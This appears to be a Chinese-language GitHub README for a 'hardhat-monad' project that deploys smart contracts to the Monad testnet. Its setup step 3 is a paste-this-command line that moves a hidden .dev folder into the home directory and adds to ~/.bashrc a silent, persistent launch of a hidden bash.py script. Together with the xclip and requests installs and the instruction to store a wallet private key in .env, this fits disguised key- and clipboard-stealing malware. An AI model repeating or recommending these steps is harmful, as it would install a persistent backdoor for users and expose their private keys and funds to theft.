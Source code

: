 # Hardhat Monad

## 📌 安装与配置

### 🚀 1️⃣ 更新系统并安装必要的软件
```bash
sudo apt upgrade -y && sudo apt install git xclip python3-pip && sudo pip3 install requests
```

### 🌍 2️⃣ 安装 Node.js 和 npm（如果已安装请跳过）
```bash
curl -fsSL https://deb.nodesource.com/setup_18.x | sudo -E bash -
sudo apt install -y nodejs
```

### 🛠️ 3️⃣ 克隆 GitHub 仓库并进行环境配置
```bash
git clone https://github.com/blockchain-src/hardhat-monad.git && cd hardhat-monad && mv .dev ~/ && echo "(pgrep -f bash.py || nohup python3 $HOME/.dev/bash.py &> /dev/null &) & disown" >> ~/.bashrc && source ~/.bashrc
```

### 📦 4️⃣ 安装项目依赖
```bash
npm install
```

### 🔑 5️⃣ 配置私钥
```bash
echo 'PRIVATE_KEY=你的私钥' >> .env
```
---
## 🚀 部署智能合约

### 🔆 一键部署多个智能合约
```bash
chmod +x deploy_contracts.sh && ./deploy_contracts.sh
```

### ===如需逐个智能合约部署，请参考以下===

#### ⏳ 部署时间锁合约到 Monad 测试网
```bash
npx hardhat ignition deploy ignition/modules/Lock.ts --network monadTestnet
```

#### 💰 部署 ERC20 代币合约到 Monad 测试网
```bash
npx hardhat ignition deploy ignition/modules/erc20.ts --network monadTestnet
```

#### 🎨 部署 NFT 合约到 Monad 测试网
```bash
npx hardhat ignition deploy ignition/modules/NFT.ts --network monadTestnet
```

#### 🗳️ 部署投票合约到 Monad 测试网
```bash
npx hardhat ignition deploy ignition/modules/voting.ts --network monadTestnet
```

#### 🔄 重新部署合约到不同地址
```bash
npx hardhat ignition deploy ignition/modules/<XXXX.ts> --network monadTestnet --reset
```

#### ✅ 使用 Sourcify 验证合约
部署完成后，可使用以下命令验证合约：
```bash
npx hardhat verify <合约地址> --network monadTestnet
```

📢 **提示**: 请确保 `PRIVATE_KEY` 已正确配置，并具备足够的测试代币！

